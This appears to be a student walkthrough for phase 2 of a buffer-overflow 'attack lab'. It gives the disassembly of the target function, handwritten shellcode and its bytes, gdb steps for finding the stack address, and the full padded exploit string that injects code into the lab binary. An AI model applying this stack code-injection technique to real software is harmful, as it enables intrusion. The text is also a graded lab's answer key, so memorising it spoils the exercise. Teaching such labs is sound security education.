 Phase 2 involves injecting a small code and calling function touch2 while making it look like you passed the cookie as an argument to touch2

If you look inside the rtarget and search for touch2, it looks something like this:

```
000000000040178c <touch2>:
  40178c:	48 83 ec 08          	sub    $0x8,%rsp
  401790:	89 fe                	mov    %edi,%esi
  401792:	c7 05 e0 30 20 00 02 	movl   $0x2,0x2030e0(%rip)        # 60487c <vlevel>
  401799:	00 00 00 
  40179c:	3b 3d e2 30 20 00    	cmp    0x2030e2(%rip),%edi        # 604884 <cookie>
  4017a2:	75 1b                	jne    4017bf <touch2+0x33>
  4017a4:	bf a0 30 40 00       	mov    $0x4030a0,%edi
  4017a9:	b8 00 00 00 00       	mov    $0x0,%eax
  4017ae:	e8 8d f4 ff ff       	callq  400c40 <printf@plt>
  4017b3:	bf 02 00 00 00       	mov    $0x2,%edi
  4017b8:	e8 dc 04 00 00       	callq  401c99 <validate>
  4017bd:	eb 19                	jmp    4017d8 <touch2+0x4c>
  4017bf:	bf c8 30 40 00       	mov    $0x4030c8,%edi
  4017c4:	b8 00 00 00 00       	mov    $0x0,%eax
  4017c9:	e8 72 f4 ff ff       	callq  400c40 <printf@plt>
  4017ce:	bf 02 00 00 00       	mov    $0x2,%edi
  4017d3:	e8 73 05 00 00       	callq  401d4b <fail>
  4017d8:	bf 00 00 00 00       	mov    $0x0,%edi
  4017dd:	e8 ce f5 ff ff       	callq  400db0 <exit@plt>
```

If you read the instruction pdf, it says, "Recall that the first argument to a function is passed in register %rdi." 

So our goal is to modify the %rdi register and store our cookie in there.

So you have to write some assembly code for that task, create a file called phase2.s and write the below code, replacing the cookie and return address with yours

```
  movq $0x434b4b70,%rdi /* move your cookie to register %rdi */
  pushq $0x0040178c     /* push the address of touch2 to the stack */
  retq                  /* return */
```

Now you need the byte representation of the code you wrote above. compile it with gcc then dissasemble it

```
gcc -c phase2.s
objdump -d phase2.o  > phase2.d 
```

Now open the file phase2.d and you will get something like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 70 4b 4b 43 	mov    $0x434b4b70,%rdi
   7:	68 8c 17 40 00       	pushq  $0x40178c
   c:	c3                   	retq   
```

The byte representation of the assembly code is `48 c7 c7 70 4b 4b 43 68 8c 17 40 00 c3`

Now you need to find the address of the %rsp register and pass it as the return address since it will execute our injected code

run ctarget through gdb 

`gdb ctarget`

set a breakpoint at getbuf 

`b getbuf`

run ctarget

`r`

print all the registers 

`info r`

That will prnt the addresses for all registers, grab the one for rsp

Now, create a text file named phase2.txt which will look something like below
```
48 c7 c7 70 4b 4b 43 68
8c 17 40 00 c3 00 00 00 /* first 13 bytes of the 24 bytes are the injected code, the rest is just padding */
00 00 00 00 00 00 00 00
28 38 62 55 00 00 00 00 /* address of register %rsp */
```

Run it through hex2raw

`./hex2raw < phase2.txt > raw-phase2.txt`

Finally, you run the raw file

`./ctarget < raw-phase2.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
